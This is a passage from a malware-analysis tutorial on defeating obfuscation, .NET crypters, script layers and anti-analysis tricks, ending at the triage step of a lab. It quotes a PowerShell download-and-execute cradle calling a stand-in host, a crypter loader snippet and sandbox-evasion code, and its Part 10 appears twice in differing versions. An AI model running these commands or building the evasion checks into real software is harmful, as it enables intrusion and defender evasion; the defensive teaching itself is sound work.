; so this jump is ALWAYS taken and the fake branch is dead code.
    mov  eax, [ebp-4]
    mov  ecx, eax
    inc  ecx
    imul eax, ecx
    and  eax, 1
    jz   real_path
fake_path:
    ; hundreds of bytes of plausible-looking garbage
    ...
real_path:
    ; the actual logic
```

Other standard identities: `x^2 >= 0`, `7y^2 - 1 != x^2` (never satisfiable over integers), `(x | 1) != 0`.

**How to defeat them.** Three options in increasing order of effort:

1. **Recognise and ignore.** Once you have seen `imul` of a value by itself followed by an `and 1` test, patch the conditional jump to an unconditional one in your database (Ghidra: right-click → Patch Instruction) and re-run analysis. The dead branch disappears from the decompilation.
2. **Symbolic execution.** Ask a solver whether the condition can ever be false. Triton and angr both do this; the pattern is to constrain the predicate and check satisfiability.
3. **Concolic simplification** at scale, for a binary with thousands of predicates — worth building only if you are fighting the same obfuscator repeatedly.

A minimal angr check that a branch is unreachable:

```python
import angr, claripy

proj = angr.Project('obf.exe', auto_load_libs=False)
state = proj.factory.blank_state(addr=0x401200)
simgr = proj.factory.simulation_manager(state)
simgr.explore(find=0x401280, avoid=0x401240)   # find=real, avoid=fake
print("reachable:", len(simgr.found), "avoided:", len(simgr.avoided))
```

If `found` is non-empty and every path avoids the fake branch, the predicate is opaque and the branch is dead.

### 8.3 Control-flow flattening

The strongest of the "still native code" techniques, and the one that makes decompiler output genuinely unreadable. The obfuscator takes a function's basic blocks, puts them all at the same level inside a `switch` in a loop, and adds a state variable that dictates the order. The original nesting — the `if` inside the `while` inside the `for` — is destroyed; every block is a peer, and the sequence exists only as data.

```c
// original
void f(int n) {
    int total = 0;
    for (int i = 0; i < n; i++) {
        if (i % 2) total += i;
        else       total -= i;
    }
    report(total);
}

// after flattening
void f(int n) {
    int state = 0x8F3A21C4, i = 0, total = 0;
    while (1) {
        switch (state) {
            case 0x8F3A21C4: i = 0; total = 0; state = 0x2B117E90; break;
            case 0x2B117E90: state = (i < n) ? 0x91C2D004 : 0x77AA1122; break;
            case 0x91C2D004: state = (i % 2) ? 0x5E01B3F7 : 0x0C4D9A16; break;
            case 0x5E01B3F7: total += i; state = 0x6612FFAB; break;
            case 0x0C4D9A16: total -= i; state = 0x6612FFAB; break;
            case 0x6612FFAB: i++;        state = 0x2B117E90; break;
            case 0x77AA1122: report(total); return;
        }
    }
}
```



Every block returns to the dispatcher, so the control-flow graph is a star with no structure. Decompilers produce a giant `while(true)` containing a `switch` with dozens of cases and no visible logic.

**How to defeat it.** The principled route is **deflattening**: recover the real successor of each block by determining, for each case, what state value it assigns, then rebuilding the CFG with direct edges and removing the dispatcher. For simple flatteners where the state assignment is a constant `mov`, this is a static pass; where the next state is computed (`state = hash(state ^ input)`), you need symbolic execution per block.

Existing tooling to reach for before writing your own:

| Tool | Approach | Notes |
| --- | --- | --- |
| **D-810** (IDA plugin) | Microcode-level optimisation passes | Very effective against OLLVM-style flattening and MBA expressions |
| **gooMBA** (IDA) | Simplifies mixed boolean-arithmetic | Complements deflattening |
| **Miasm** | Symbolic execution + IR simplification | Scriptable, good for custom flatteners |
| **Triton** | Dynamic symbolic execution | Per-block successor solving |
| **angr** | Static + symbolic | Slower on large binaries but very general |

The pragmatic route, and the one most analysts actually take under time pressure, is to **stop trying to read the code and instrument it instead**. Flattening does not change behaviour: set breakpoints on the interesting APIs, log the arguments, and recover the algorithm from observed input/output. A flattened string decryptor is still a string decryptor — break after it and read the plaintext.

### 8.4 Mixed boolean-arithmetic (MBA)

Frequently paired with flattening. A simple operation is rewritten as an algebraically equivalent monster:

```
x + y     becomes     (x ^ y) + 2*(x & y)
x ^ y     becomes     (x | y) - (x & y)
x & y     becomes     (x + y - (x | y))
```

These identities compose, so a single addition can become forty instructions. Recognising the two-line forms above by sight covers a surprising amount of real obfuscated code; beyond that, gooMBA or a Z3-backed simplifier is the answer.

### 8.5 Virtualisation-based protection

The top tier — VMProtect, Themida's VM tiers, Code Virtualizer. The protected function's x86 instructions are removed entirely and replaced with **bytecode for a custom virtual machine** that ships inside the binary. At runtime a dispatcher fetches a bytecode opcode, looks up a handler, and executes it. There is no x86 form of the original function anywhere, in the file or in memory, ever. Dumping gains you nothing.



Realistic approaches, in the order a working analyst tries them:

1. **Analyse behaviourally instead.** Only *selected* functions are virtualised, because virtualisation is enormously slow. Most of the binary is normal. Find what is not virtualised, and treat each VM-protected function as a black box you characterise by its inputs and outputs.
2. **Dump the results, not the code.** If the virtualised function decrypts a configuration, breakpoint after the VM exit and read the plaintext. You never need to understand the VM.
3. **Devirtualise.** Identify the dispatcher, enumerate the handlers, map each to a semantic operation (usually by symbolically executing each handler once), then lift the bytecode into readable IR. This is a serious project — days to weeks — justified only for a high-value target or a family you will see repeatedly. Public research tooling exists (VMHunt, academic devirtualisers, VMProtect-specific projects of varying currency), but expect to adapt rather than run.
4. **Skip it.** For an incident response deadline, "function at 0x4021A0 is VMProtect-virtualised; behaviourally it produces the C2 URL from an embedded blob" is a legitimate, professional finding.

**CTF note:** virtualisation obfuscation is a staple of hard reversing challenges precisely because the intended solution is to write a disassembler for the custom VM. In a CTF the VM is small (10–30 handlers) and tractable in an evening; that exercise is genuinely the best training available for the real thing.

## Part 9: .NET and Script-Layer Obfuscation

A large share of commodity malware is .NET, and the tooling is completely different — and far kinder to the analyst, because .NET assemblies carry metadata that decompiles almost back to source.

### 9.1 Identifying .NET

```
$ diec sample.exe
PE32
    Library: .NET(v4.0.30319)[-]
    Linker: Microsoft Linker(48.0)
```

Structurally: a `.NET` / CLR directory in the optional header's data directories, a single imported function (`mscoree.dll!_CorExeMain`), and section names including `.text` holding IL rather than native code. `pefile` shows it directly:

```python
import pefile
pe = pefile.PE('sample.exe')
d = pe.OPTIONAL_HEADER.DATA_DIRECTORY[14]   # IMAGE_DIRECTORY_ENTRY_COM_DESCRIPTOR
print("is .NET:", d.VirtualAddress != 0)
```

### 9.2 dnSpyEx — decompiler and debugger in one

**dnSpyEx** is the maintained fork of dnSpy: a .NET assembly browser, C#/VB decompiler, and *debugger* that lets you set breakpoints in decompiled C# and step through it. For .NET malware it replaces Ghidra and x64dbg simultaneously.

Workflow that solves most .NET crypters in minutes:

1. Open the assembly. Browse the namespace tree; obfuscated assemblies show class and method names like `a.b`, `Class3.method_7`, or Unicode garbage.
2. Find the entry point (dnSpyEx marks it) and read down until you hit the decrypt-and-load pattern:

```csharp
// typical .NET crypter core, as decompiled
private static void Main(string[] args)
{
    byte[] array = Class2.smethod_3(Resources.data);      // decrypt embedded resource
    Assembly assembly = Assembly.Load(array);              // load payload in-memory
    assembly.EntryPoint.Invoke(null, new object[] { });    // run it
}
```

`Assembly.Load(byte[])` is the giveaway: the real payload is the decrypted byte array, and it never touches disk.

3. Rather than reversing `smethod_3`, set a breakpoint on the `Assembly.Load` line, run under dnSpyEx's debugger, and when it hits, inspect the `array` local in the Locals window → right-click → **Save** → write it to disk. That file is the unpacked payload, fully clean.
4. Open the saved assembly in a new dnSpyEx tab and analyse it as normal.

Command-line and debugging notes: dnSpyEx can start a process with arguments (Debug → Start), attach to a running one, and break on module load — which catches payloads loaded reflectively several layers deep. Enable **Debug → Options → Break on Module Load** for a chain of unknown depth, and save each new in-memory module as it appears.

### 9.3 de4dot — automated .NET deobfuscation

**de4dot** detects and reverses the transformations applied by known .NET obfuscators: it renames mangled symbols to readable placeholders, decrypts strings, removes proxy-call indirection, removes anti-tamper and anti-debug code, and restores control flow.

```bash
# .NET Framework build on Windows, or via mono on Linux
de4dot.exe sample.exe
# force a specific obfuscator when detection fails
de4dot.exe -p cr sample.exe          # -p cr = ConfuserEx
de4dot.exe -p un sample.exe          # unknown/generic
# supply a string decryption method token when strings stay encrypted
de4dot.exe --strtyp delegate --strtok 0x06000123 sample.exe
```

```
$ de4dot.exe packed.exe
de4dot v3.1.41592.3405
Detected Unknown Obfuscator (packed.exe)
Cleaning packed.exe
Renaming all obfuscated symbols
Saving packed-cleaned.exe
```

Supported/target obfuscators include ConfuserEx, .NET Reactor, Dotfuscator, Eazfuscator, Babel, CryptoObfuscator, SmartAssembly and more. Detection is signature-based and ages, so `-p` plus manual work is normal on current samples. The `--strtyp delegate --strtok` combination is the important advanced flag pair: it tells de4dot which method in the assembly is the string decryptor, and de4dot will then *invoke* that method for every encrypted string and bake the plaintext back into the assembly. You find the token by locating the decryptor in dnSpyEx and reading its metadata token from the properties pane.

**Order of operations matters:** if the assembly is *packed* (a crypter wrapping a payload), de4dot on the outer file achieves little — dump the inner assembly first with the `Assembly.Load` breakpoint, then run de4dot on the dump.

### 9.4 Script-layer deobfuscation

The outermost layer of most chains is a script, and scripts are deobfuscated by *rewriting them to print instead of execute*.

A representative obfuscated PowerShell command line as captured from a parent process:

```powershell
powershell -nop -w hidden -ep bypass -e SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAB...
```

Flag decoding, which you should be able to do without reference: `-nop` = `-NoProfile` (skip profile scripts), `-w hidden` = `-WindowStyle Hidden`, `-ep bypass` = `-ExecutionPolicy Bypass`, `-e` = `-EncodedCommand`, whose argument is base64 of a **UTF-16LE** string. That encoding detail matters:

```bash
$ echo 'SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAB...' | base64 -d | iconv -f UTF-16LE -t UTF-8
IEX (New-Object Net.WebClient).DownloadString('http://cdn.example-delivery.net/a.ps1')
```

Layered obfuscation stacks string reversal, format-operator reordering, character-code arrays, and compression:

```powershell
# layer 2, as recovered
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream(
  (New-Object IO.MemoryStream(,[Convert]::FromBase64String($b64))),
  [IO.Compression.CompressionMode]::Decompress))).ReadToEnd()
```

**The universal safe technique: replace the execution sink with output.** `IEX` (`Invoke-Expression`) is what turns a string into running code. Change `IEX` to `Write-Output` — or in the reconstructed script, remove the final `IEX` — and the script prints its next layer instead of running it. Repeat until the output is plain code. This works because every layer must ultimately hand a *string* to an execution primitive, and there are only a handful of those:

| Language | Execution sinks to neutralise |
| --- | --- |
| PowerShell | `IEX`, `Invoke-Expression`, `.Invoke()`, `Invoke-Command`, `& ([scriptblock]::Create(...))` |
| JScript / VBScript | `eval`, `Function(...)`, `execScript`, `Execute`, `ExecuteGlobal`, `WScript.Shell.Run` |
| VBA | `Shell`, `CreateObject("WScript.Shell").Run`, `Application.Run` |
| Python | `exec`, `eval`, `compile` |

Two safety notes. First, do this only in the isolated VM: it is very easy to accidentally leave one sink live. Second, for PowerShell specifically, there is a much better source of truth than manual unwrapping — **Script Block Logging** (Event ID 4104) records every script block *after* deobfuscation, including ones generated at runtime by `IEX`. Enable it in the analysis VM before detonation and the event log hands you every layer in plaintext, in order, with no manual work at all:

```powershell
# in the analysis VM, before detonation
New-Item -Path 'HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging' -Force
Set-ItemProperty -Path 'HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging' `
  -Name EnableScriptBlockLogging -Value 1
# after detonation, read the deobfuscated layers
Get-WinEvent -LogName 'Microsoft-Windows-PowerShell/Operational' |
  Where-Object Id -eq 4104 |
  ForEach-Object { $_.Properties[2].Value } | Out-File C:\analysis\blocks.txt
```

**Blue team usage:** that same 4104 logging is the highest-value PowerShell detection control in production, for exactly the reason it helps here — it defeats obfuscation by observing the post-deobfuscation text. Pair it with AMSI, which sees the same content at the scan interface.

## Part 10: Anti-Analysis Tricks — The Full Catalogue and How to Defeat Each

Chapter 6 covered anti-debugging specifically. This part covers everything else a sample does to detect that it is being studied: anti-VM, anti-sandbox, anti-emulation, anti-dumping, and anti-disassembly. The organising insight is that all of them are **environmental checks feeding a branch**, and every one of them can therefore be beaten in one of three ways: make the environment look normal, patch the check, or patch the branch.

### 10.1 Anti-VM — detecting the hypervisor

| Check | Mechanism | Counter |
| --- | --- | --- |
| CPUID hypervisor bit | `cpuid` leaf 1, ECX bit 31 set under any hypervisor | Patch the check; some hypervisors can mask it |
| CPUID vendor leaf | `cpuid` leaf 0x40000000 returns `VMwareVMware`, `KVMKVMKVM`, `Microsoft Hv`, `VBoxVBoxVBox` | Patch, or use a hypervisor with a spoofed leaf |
| MAC address OUI | `00:0C:29`/`00:50:56` (VMware), `08:00:27` (VirtualBox), `00:15:5D` (Hyper-V) | Set a custom MAC on the VM adapter |
| Registry artefacts | `HKLM\SOFTWARE\VMware, Inc.`, `HKLM\HARDWARE\DESCRIPTION\System\SystemBiosVersion` containing `VBOX` | Rename or remove keys in the golden image |
| Device names | `\\.\VBoxMiniRdrDN`, `\\.\VMCI`, `\\.\HGFS` | Remove guest additions/tools |
| Running processes | `vmtoolsd.exe`, `VBoxService.exe`, `vboxtray.exe`, `prl_tools.exe` | Do not install guest tools, or rename binaries |
| SMBIOS / DMI strings | Manufacturer "VMware, Inc.", "innotek GmbH", "QEMU" | Override SMBIOS in the VM config |
| Disk model | `VBOX HARDDISK`, `VMware Virtual S` | Set a custom disk product ID where the platform allows |
| VMware backdoor I/O port | `in eax, dx` with magic `0x564D5868` on port `0x5658` | Patch the check; the instruction faults on bare metal |
| Timing of privileged instructions | `rdtsc` around `cpuid` — trapped instructions are far slower in a VM | Hard to hide; patch the comparison |

Hardening the golden image handles the majority, and it is worth doing once, properly. Beyond that, patching is the practical answer.

Finding the checks is straightforward if you know the search terms. In the dumped payload, look for the string constants (`VMware`, `VBOX`, `QEMU`, `Virtual`) — and if they are absent because of Part 7's techniques, look for `cpuid` instructions and for `RegOpenKeyExA` calls whose key path is built on the stack. In x64dbg, break on the registry and device-open APIs and read the arguments:

```
bp RegOpenKeyExW
bp CreateFileW
bp GetAdaptersInfo
bp CreateToolhelp32Snapshot
```

`CreateToolhelp32Snapshot` followed by a `Process32Next` loop with string comparisons is process-list fingerprinting, whatever the strings turn out to be.

### 10.2 Anti-sandbox — detecting an automated analysis environment

Sandboxes differ from real user machines in ways that are easy to measure and hard to fake completely.

| Check | Typical threshold | Counter |
| --- | --- | --- |
| CPU core count | `GetSystemInfo`, fewer than 2 or 4 means sandbox | Give the VM 4 cores |
| Physical RAM | `GlobalMemoryStatusEx`, under 2–4 GB | Allocate 8 GB |
| Disk size | `DeviceIoControl(IOCTL_DISK_GET_LENGTH_INFO)`, under 60–100 GB | Provision a large thin-provisioned disk |
| Screen resolution | `GetSystemMetrics`, defaults like 1024x768 | Set an unusual, realistic resolution |
| Uptime | `GetTickCount` under a few minutes means freshly booted for analysis | Let the VM run 20+ minutes before detonating |
| User name / host name | `SANDBOX`, `MALWARE`, `VIRUS`, `JOHN-PC`, `admin` | Use a realistic, unremarkable name |
| Recent files, browser history, documents | Empty means synthetic | Populate the image with plausible user data |
| Number of running processes | Under ~40 | Open a browser, an office app, a chat client |
| Mouse movement | `GetCursorPos` twice, compare — no movement means unattended | Move the mouse during detonation, or hook the API |
| User interaction gate | Waits for a click, a keypress, or a scroll in a fake dialog | Interact with it; do not just watch |
| Known analysis usernames/filenames | Sample checks its own filename against `sample.exe`, `malware.exe`, a hash-like name | Rename the sample to something plausible |
| Domain membership | Standalone workstation means not a real corporate target | Join a lab domain, or patch |

**The single highest-value habit here** is renaming the sample. A meaningful fraction of samples check `GetModuleFileNameW` against a list of analysis-typical names or against a pattern of 32/64 hex characters (because analysts commonly name files by hash). Renaming `a3f5...9c21.exe` to `invoice_scan.exe` costs one second and unblocks a real percentage of samples.

### 10.3 Timing and sleep-based evasion

Sandboxes have a time budget — typically two to five minutes per sample. Malware exploits this by simply waiting.

```c
Sleep(600000);            // 10 minutes — outlives most sandbox timeouts
// or, harder to skip:
for (i = 0; i < 50; i++) { Sleep(12000); }    // many short sleeps
// or, with no Sleep call at all:
start = GetTickCount64();
while (GetTickCount64() - start < 600000) { junk_math(); }
```

Sandboxes counter with **sleep patching** — hooking `Sleep` to return immediately. Malware counters the counter by *detecting* sleep patching:

```c
t1 = GetTickCount64();
Sleep(10000);
t2 = GetTickCount64();
if (t2 - t1 < 9000) exit(0);      // our sleep was skipped: we are instrumented
```

Or by using a timing source the sandbox forgot to hook: `NtDelayExecution`, `GetSystemTimeAsFileTime`, `QueryPerformanceCounter`, `timeGetTime`, `rdtsc` directly, or a waitable timer.

**How to defeat it manually:** in x64dbg, break on `Sleep` (or `NtDelayExecution`), and when it hits, edit the argument on the stack to a small value, or simply set the instruction pointer past the call. Do not blanket-hook the timing APIs, because that trips the detection above — patch the specific call, not the API.

**API hammering** is the related trick where the sample calls a cheap API tens of millions of times, or computes a long chain of hashes, purely to burn the sandbox's time budget without an obvious sleep. In a debugger this shows as a tight loop with an enormous counter; patch the loop bound to a small number and continue.

### 10.4 Environment gating — geofencing and language checks

A sample may be *targeted*, and refuse to run outside its target set. This is not evasion so much as operational scoping, but it looks identical from your seat.

```c
if (GetUserDefaultUILanguage() == 0x0419) exit(0);   // Russian UI — do not run
if (GetKeyboardLayout(0) == 0x0422) exit(0);         // Ukrainian layout
GetLocaleInfoW(LOCALE_USER_DEFAULT, LOCALE_SISO3166CTRYNAME, buf, 8);  // "US"?
```

The relevant APIs, all worth having as standing breakpoints during first detonation: `GetUserDefaultUILanguage`, `GetSystemDefaultLangID`, `GetKeyboardLayoutList`, `GetLocaleInfoW`, `GetTimeZoneInformation`, and network-based geolocation via a request to an IP-lookup service.

**Threat-intel value:** a language exclusion list is one of the few genuinely attributive artefacts in a sample. Record the exact locale IDs checked — that list is a durable clustering feature across a family's builds, and far more meaningful than a hash.

### 10.5 Anti-emulation

Emulators (sandbox CPU emulation, AV engine emulators, unipacker's Unicorn) implement a subset of the instruction set and a subset of the API surface. Malware detects them by using something obscure and checking whether it worked:

- **Rare instructions.** A single MMX/AVX-512/FMA instruction, or an obscure encoding, that a partial emulator gets wrong or refuses.
- **Undocumented or rarely-implemented APIs.** Call something obscure; if it returns an implausible success or an unexpected error code, you are in an emulator.
- **Deliberate exceptions.** Trigger a divide-by-zero or an access violation, handle it in a structured exception handler, and continue in the handler. Emulators frequently mishandle SEH, so the sample dies in the emulator and lives on real hardware. This doubles as anti-analysis, because the *real* control flow lives in the exception handler and a static reader following the fall-through path reads the wrong branch entirely.
- **CPU errata behaviour.** Check flag semantics that only real silicon reproduces.

**How to defeat it:** run on real hardware in a VM rather than in an emulator. Anti-emulation is the reason "just use unipacker" is not a complete methodology, and the reason x64dbg on a real VM remains the ground truth.

When you see SEH-based flow control (`push` of a handler onto `fs:[0]` on x86, or a `.pdata`-registered handler on x64, followed by a deliberate fault), set your debugger to pass the exception to the program (in x64dbg: Options → Exceptions, add the exception code to the ignore list) and breakpoint the handler directly.

### 10.6 Anti-dumping

Techniques aimed specifically at the operation in Part 5.

| Trick | Effect on your dump | Counter |
| --- | --- | --- |
| Erase the PE header after load | Dumping tools cannot find `MZ`/`PE` and refuse | Rebuild a minimal header by hand, or use PE-sieve which reconstructs from section layout |
| Inflate `SizeOfImage` in the header | Dumper tries to read an absurd region and fails | Patch the header field in memory before dumping |
| Guard pages around the payload | Reading triggers an exception the sample notices | Change protection with the debugger before dumping |
| Encrypt code pages on demand | Only the executing page is decrypted at any instant | Dump repeatedly at different points and merge, or break at a late point when most pages are resolved |
| IAT redirection and stub thunks | Import reconstruction produces invalid entries | Scylla "fix redirection", or script the stub shape (Part 5.2) |
| Checksums over own code | Software breakpoints (`0xCC`) change the code and are detected | Use hardware breakpoints exclusively |
| Deleting the section table | Structural reconstruction fails | PE-sieve's virtual dump mode; rebuild sections from page protections |

The header-erasure case is the most common and the least scary: a PE header is highly stereotyped, and you can reconstruct enough of one to satisfy Ghidra by copying the header from the *packed* file and fixing `AddressOfEntryPoint`, section sizes, and `SizeOfImage`. PE-sieve does this automatically, which is why it is the first tool to try when a dump "has no PE header".

### 10.7 Anti-disassembly

Aimed not at your debugger but at your disassembler's ability to reconstruct correct instructions.

**Overlapping instructions.** x86 is a variable-length encoding with no alignment requirement, so the same bytes dec

## Part 10: Anti-Analysis Tricks — The Full Catalogue and How to Defeat Each

Protection is only half a modern sample's defence. The other half is active resistance: checks that detect the analysis environment and change behaviour when they trip. These divide into four families — anti-debugging, anti-VM/sandbox, anti-emulation, and anti-disassembly — and each family has a small, learnable set of members.

### 10.1 Anti-debugging

Chapter 6 covered the debugger-visible half of this; here it is organised as a defeat catalogue.



| Technique | Mechanism | Defeat |
| --- | --- | --- |
| `IsDebuggerPresent` | Reads `PEB->BeingDebugged` (byte at `fs:[0x30]+2`) | ScyllaHide clears the flag; or patch the return to 0 |
| `CheckRemoteDebuggerPresent` | Calls `NtQueryInformationProcess(ProcessDebugPort)` | ScyllaHide hooks the query; or set the port result to 0 |
| `NtQueryInformationProcess` `ProcessDebugPort`/`DebugObjectHandle`/`DebugFlags` (classes 7, 30, 31) | Kernel-reported debug state | ScyllaHide intercepts all three classes |
| PEB `NtGlobalFlag` | Debugged processes set `FLG_HEAP_*` bits (`0x70`) at `PEB+0x68`/`+0xBC` | ScyllaHide zeroes it |
| Heap flags | `Flags`/`ForceFlags` in the heap header differ under a debugger | ScyllaHide normalises them |
| Debug-register check | Reads DR0–DR3 via `GetThreadContext`; non-zero means hardware breakpoints | Use software breakpoints, or ScyllaHide's `GetThreadContext` hook |
| `INT 3` / `0xCC` scan | Checksums own code looking for the `0xCC` a software breakpoint writes | Use hardware breakpoints (no code modification) |
| Timing (`rdtsc`, `GetTickCount`, QPC) | Single-stepping is thousands of times slower; a large delta between two reads means a human is stepping | ScyllaHide fakes timing; or run full-speed to the region of interest and only step inside it |
| `NtSetInformationThread(ThreadHideFromDebugger)` (class 0x11) | Detaches the thread from debug events; the debugger goes deaf | ScyllaHide blocks the call |
| Self-debugging | The process debugs itself so nothing else can attach | Break on `DebugActiveProcess`/`NtDebugActiveProcess` and neutralise |
| `OutputDebugString` + `GetLastError` | Under some debuggers the call behaves differently | ScyllaHide handles it |

The practical answer to nearly this entire column is **ScyllaHide with a sensible profile enabled before the first instruction runs** (Chapter 6, Part 7). It is a user-mode hook library that intercepts the queries above and returns clean answers. For the residue it does not cover, the pattern is always the same: find the check in the disassembler (the API names give it away), set a breakpoint on the conditional jump that acts on the result, and patch the flag or the jump.

### 10.2 Anti-VM and anti-sandbox

The sample tries to determine whether it is running on a real user's machine or in an analysis environment, and idles or exits if the latter.

| Category | What it checks | Defeat |
| --- | --- | --- |
| Hypervisor artefacts | `cpuid` leaf 1 ECX bit 31 (hypervisor present); leaf 0x40000000 vendor string (`VMwareVMware`, `KVMKVMKVM`, `Microsoft Hv`) | Patch the check, or use a hardened VM that masks the hypervisor bit |
| MAC address OUI | VMware `00:0C:29`, `00:50:56`; VirtualBox `08:00:27` | Set a random OUI on the VM's virtual NIC |
| Registry keys | `HKLM\SOFTWARE\VMware, Inc.`, `HARDWARE\...\SystemBiosVersion` containing "VBOX"/"VMWARE" | Scrub or spoof the keys |
| Devices/drivers | `\\.\VBoxGuest`, `vmmouse.sys`, `vmci.sys`, `VBoxService.exe` | Rename/remove guest additions |
| Disk and RAM size | Disk under ~60 GB or RAM under ~4 GB screams sandbox | Provision a realistic 100+ GB disk and 4+ GB RAM |
| CPU core count | `GetSystemInfo` / `cpuid` reporting 1–2 cores | Assign 4+ vCPUs |
| Loaded analysis processes | Walks the process list for `procmon.exe`, `wireshark.exe`, `x64dbg.exe`, `ollydbg.exe`, `procexp.exe` | Rename the tools, or run them from renamed copies |
| Loaded analysis modules | `sbiedll.dll` (Sandboxie), `dbghelp.dll`, `api_log.dll`, `dir_watch.dll` | Do not run inside Sandboxie for hostile samples |
| Username / hostname | `SANDBOX`, `MALWARE`, `VIRUS`, `JOHN-PC`, `admin` | Set a realistic user and hostname |
| Uptime | Freshly booted analysis VM has tiny uptime | Boot the VM well before detonation |
| Artefact files | `C:\take_screenshot.ps1`, sample-analysis breadcrumbs | Keep the VM clean of tell-tale files |
| Known sandbox product IDs / MACs | Hard-coded lists for Cuckoo, Any.Run, Joe Sandbox, Triage | Use a bespoke VM, not a public sandbox, for evasive samples |



The dominant defeat strategy is **VM hardening** — building an analysis VM that does not look like one — combined with **patching the specific check** when hardening is impractical. To patch, find the check (the API and `cpuid`/`str` instructions stand out), breakpoint the conditional that consumes its result, and flip the jump so the "real machine" path is always taken. The most reliable way to *find* these checks without reading everything is to breakpoint the enabling APIs before detonation:

```
bp GetSystemInfo
bp GetAdaptersInfo
bp RegOpenKeyExW
bp Process32NextW
bp GetDiskFreeSpaceExW
bp CreateToolhelp32Snapshot
```

When one fires, the following conditional jump is the evasion decision — patch it and continue. **Red team relevance:** this same table read the other direction is an evasion checklist. Operators who want a payload to sleep in sandboxes but run on real hosts implement exactly these checks; understanding them defensively and offensively is the same knowledge.

### 10.3 Anti-sandbox by stalling and user-interaction gating

A distinct family: rather than detecting the environment, the sample assumes an automated sandbox will only watch for a few minutes and will have no human at the keyboard, and it exploits both assumptions.

- **Sleep-based stalling.** `Sleep(600000)` or a loop of many short sleeps to outlast the sandbox's analysis window. Naive sandboxes give up; the sample then runs after they stop watching. **Defeat:** hook `Sleep`/`NtDelayExecution` to return immediately (Frida, or a sandbox with sleep-skipping), or in the debugger set the sleep argument to a small value.
- **Sleep via unusual timers.** `SetTimer`, `WaitForSingleObject` on a never-signalled event with a timeout, `timeSetEvent`, or spinning on `GetTickCount` — used because they evade `Sleep` hooks. **Defeat:** hook the specific timer API, or fast-forward the debugger past the wait.
- **API-hammering stalls.** Millions of benign API calls to burn the sandbox's instruction budget before doing anything malicious. **Defeat:** breakpoint past the loop.
- **User-interaction gates.** The payload runs only after real mouse movement, a certain number of clicks, a scroll, a foreground-window change, or a dialog dismissal — because automated sandboxes usually have none. Checks via `GetCursorPos` polled over time, `GetForegroundWindow`, `GetLastInputInfo`. **Defeat:** provide interaction (some sandboxes simulate it), or patch the gate. `GetLastInputInfo` returning a large idle time is the classic "no human here" signal to force past.
- **Domain/geo gating.** Runs only if joined to a specific AD domain, or if the system locale/keyboard is (or is not) a particular country — commodity crime frequently skips CIS locales. `GetUserDefaultLangID`, `GetKeyboardLayoutList`, `GetLocaleInfo`. **Defeat:** set the VM's locale to the target's, or patch the comparison.

### 10.4 Anti-emulation

Aimed specifically at the emulators from Part 6 and at AV engines' built-in emulators, which implement only a subset of the CPU and API surface.

- **Rare or undocumented instructions.** Uses an obscure instruction (an unusual SSE/AVX form, an FPU edge case, `cpuid` sub-leaves) that a partial emulator gets wrong or does not implement, and branches on the result.
- **Unimplemented API calls.** Calls a rarely-emulated API and checks for a plausible return; an emulator that stubs it with a fixed value fails the check.
- **CPU-quirk fingerprinting.** Relies on precise flag behaviour, exception semantics, or timing that only real silicon reproduces.
- **Large computation.** A genuine cryptographic workload that is fast on a real CPU but crawls under emulation, used as an implicit timing check.

**Defeat:** emulation-based tools are simply the wrong choice for anti-emulation samples — switch to real execution in the hardened VM (with a debugger or Frida) where the instructions and APIs behave correctly. This is the one family where Part 6's automation genuinely cannot help, and recognising that early saves time.

### 10.5 Anti-disassembly

Targets the *tools* that render code, by exploiting the gap between how a disassembler parses bytes and how the CPU executes them.

**Overlapping instructions.** A jump lands in the *middle* of an instruction the disassembler already decoded, so the CPU executes a different instruction stream than the one shown:

```asm
; disassembler sees:
    EB FF    jmp $+1        ; jumps into the next byte
    C0 48 ...              ; garbage from here on
; but the CPU, landing at +1, executes:
    FF C0    inc eax        ; a completely different instruction
```

**Defeat:** in the debugger, follow actual execution — single-step and the real stream reveals itself. In Ghidra, `Clear Code Bytes` at the misaligned location and re-`Disassemble` from the true target.

**Jump into the middle of an instruction via push-ret and opaque jumps** (Parts 4.5 and 8.2) — same principle applied to hide control flow.

**Bogus function boundaries.** A `call` to `$+5` (the next instruction) used purely to push a return address onto the stack, then `add [esp], N; ret` to jump — control flow that no boundary heuristic reconstructs. **Defeat:** recognise the `call $+5 / pop` idiom as position-independent addressing, not a real call, and step through it.

**Structured exception handling as control flow.** The code deliberately triggers an exception (a divide by zero, an access violation) and does the real work in the SEH handler, so the linear flow after the faulting instruction is dead code the disassembler wastes effort on. **Defeat:** find the registered handler (walk the SEH chain, or break on `KiUserExceptionDispatcher`) and analyse *it* as the real continuation.

### 10.6 The unifying principle

Across all four families, one idea defeats the majority of cases: **the CPU always executes the real code, so follow the CPU.** Static tools can be fooled about what the bytes mean; a debugger stepping real execution, or an instrumentation hook watching real API calls, sees ground truth. Emulation is the exception that inverts this — against anti-emulation you go to real hardware — but for anti-debug, anti-disassembly, and much anti-VM work, dynamic observation of actual execution is the master key. ScyllaHide handles the debugger-detection layer so that "follow the CPU" remains possible even while the sample is trying to prevent exactly that.

## Part 11: Hands-On Lab — Peeling a Multi-Layer Loader End to End

A complete, reproducible walkthrough against a **representative multi-layer commodity loader**. It stacks the techniques from every previous part: an anti-analysis-guarded custom crypter, a compressed native payload with a hashed import table, and stack-string-obfuscated configuration. The sample is a benign stand-in engineered to exhibit exactly these behaviours; every command, flag, address pattern, and output shape transfers directly to real samples. All work is in the Chapter 1 VM, network disconnected, on a snapshot reverted afterward.

### 11.1 Triage

```
C:\analysis> sha256sum loader2.bin
7c9e...4b02  loader2.bin

C:\analysis> diec -d -e loader2.bin
PE32
    Compiler: Microsoft Visual C/C++(-)[-]
    Packer: (custom / unknown)
Entropy: 7.904 (packed)
    Section(0)['.text']  ... 3.98  not packed
    Section(1)['.data']  ... 7.95  packed        <- encrypted blob lives here
    Section(2)['.rsrc']  ... 4.10  not packed

C:\analysis> python3 sections.py loader2.bin
name         vsize    rawsize  entropy  flags
.text         6000       6000    3.980  R-X
.data        22000      22000    7.951  RW-
.rsrc         1000       1000    4.100  R--
Entry point section: b'.text'
Imported DLLs: 2

C:\analysis> python3 -c "import pefile;pe=pefile.PE('loader2.bin');[print(i.name.decode()) for e in pe.DIRECTORY_ENTRY_IMPORT for i in e.imports if i.name]"
LoadLibraryA
GetProcAddress
